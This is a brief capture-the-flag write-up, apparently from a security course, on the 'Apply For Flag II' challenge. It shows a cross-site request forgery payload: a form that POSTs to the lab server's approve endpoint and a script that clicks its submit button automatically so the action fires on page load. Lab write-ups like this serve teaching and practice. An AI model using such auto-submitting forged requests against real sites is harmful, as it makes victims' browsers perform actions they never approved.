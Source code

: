 # Apply For Flag II

- First we disable javascript on browser then we used teh following code changing "id" by the request id:

![](images/id.jpg)

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/ id /approve" role="form">
<div class="submit">
<input type="submit" id="giveflag" value="Give the flag">
</div>
</form>
<script type="text/javascript">
document.querySelector('#giveflag').click();
</script>
```

- Then we got the flag:
  
![](images/flag.jpg)